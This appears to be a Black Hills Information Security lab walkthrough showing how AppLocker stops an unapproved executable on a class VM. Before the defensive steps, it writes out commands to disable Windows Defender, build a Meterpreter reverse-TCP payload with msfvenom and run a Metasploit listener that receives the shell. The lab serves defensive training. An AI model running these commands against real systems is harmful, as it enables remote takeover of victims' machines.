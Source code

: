 AppLocker (Black Hills Information Security Labs) 

Applocker Instructions:

Let’s see what happens when we do not have AppLocker running. We will set up a simple backdoor and have it connect back to the Ubuntu system. Remember, the goal is not to show how we can bypass EDR and Endpoint products. It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

Set-MpPreference -DisableRealtimeMonitoring $true

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process. Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

On your Linux system, please run the following command:

$ifconfig

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ sudo su - Please note, the adhd password is adhd.

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe

cd /tmp

ls -l TrustMe.exe

cp ./TrustMe.exe /mnt/c/tools

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

sudo su -

root@DESKTOP-I1T2G01:/tmp# msfconsole -q

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST 172.26.19.133

Remember, your IP will be different!

msf5 exploit(multi/handler) > exploit

It should look like this:

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

cd \tools

Take a deep breath. Count to 5. Then hit Ctrl+c to kill the connection.

Then, run it.

TrustMe.exe

Back at your Ubuntu prompt, you should have a metasploit session!

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

This should generate a subset of rules for each group. It should look similar to how it does below:

Next, we need to enforce the rules:

To do this you will need to select ApLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

Next, open a command prompt and run gpupdate to force the policy change

C:\ gpupdate /force

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little wite user icon:

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

You will see that most of the .exe files will generate an error.

Now, let's surf to your Linux system, download the malware and try to run it again.

You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.
